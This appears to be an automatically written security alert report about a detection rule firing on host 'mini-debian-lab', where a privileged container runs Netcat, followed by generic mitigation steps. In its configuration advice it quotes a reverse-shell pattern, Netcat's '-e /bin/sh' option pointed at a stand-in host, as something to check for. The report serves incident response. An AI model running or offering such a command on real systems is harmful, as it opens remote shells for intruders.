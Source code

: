 **Security Alert Report**
=========================

**Summary**
------------

This alert notification indicates that a suspicious activity has been detected on the host `mini-debian-lab`. The activity involves a container running Netcat with elevated privileges, allowing remote code execution.

**Detailed Analysis**
--------------------

The attached attachment contains the following relevant information:

*   `uuid`: A unique identifier for the event (08f0b862-06e5-4e34-a9d7-3aca1694c043)
*   `output`: The output of the alert, which includes details about the Netcat process running inside a container with elevated privileges.
*   `priority`: The priority level of the alert, set to "Warning" indicating that this is an important but not critical incident.
*   `rule`: The rule that triggered this alert, specifically "Netcat Remote Code Execution in Container".
*   `time`: The timestamp of when the event occurred (2024-10-05T16:08:26.934172456Z).
*   `output_fields`: A dictionary containing various fields related to the Netcat process, including container ID, command line arguments, and user information.
*   `source`: The source of the alert, identified as "syscall".
*   `tags`: A list of tags associated with this incident, which include T1059, container, maturity_stable, mitre_execution, network, and process.

**Mitigation and Recommendations**
-----------------------------------

To mitigate this issue, consider applying the following steps:

### 1. Review and Restrict Container Privileges

*   Verify that no containers have elevated privileges or execute arbitrary commands.
*   Ensure that all container processes are properly secured with restricted capabilities.
*   Consider implementing a least-privilege approach for containerized applications.

### 2. Update Netcat Configuration

*   Check the current Netcat configuration on the host and verify that it does not include any suspicious options (e.g., `-e /bin/sh example.com 22`).
*   Ensure that the default configuration is applied, if possible.
*   Consider updating to a more secure version of Netcat.

### 3. Monitor Container Logs

*   Regularly review container logs for any suspicious activity or command executions.
*   Use log aggregation tools like ELK Stack (Elasticsearch, Logstash, Kibana) to simplify log management and analysis.
*   Implement log monitoring to detect potential security incidents in real-time.

### 4. Implement Security Measures on Host

*   Regularly update and patch the host operating system and all applications to prevent exploitation of known vulnerabilities.
*   Enable network segmentation to limit lateral movement and improve incident response time.
*   Consider implementing a security information and event management (SIEM) system to collect, monitor, and analyze security-related data from various sources.

### 5. Perform Regular Security Audits

*   Schedule regular security audits and risk assessments to identify potential vulnerabilities in the containerized environment.
*   Conduct vulnerability scanning to detect any known vulnerabilities in the host and containers.
*   Implement a continuous monitoring strategy to ensure that security controls are effective and up-to-date.

**Conclusion**
----------

The attached attachment indicates a potential security threat on the host `mini-debian-lab`, where a container is running Netcat with elevated privileges, allowing remote code execution. By following the recommended steps above, you can mitigate this issue and improve the overall security posture of your containerized environment. Regularly review and update your security controls to prevent similar incidents in the future.

---

Please note that the above analysis is based on the provided attachment and might require additional information or context for a comprehensive solution.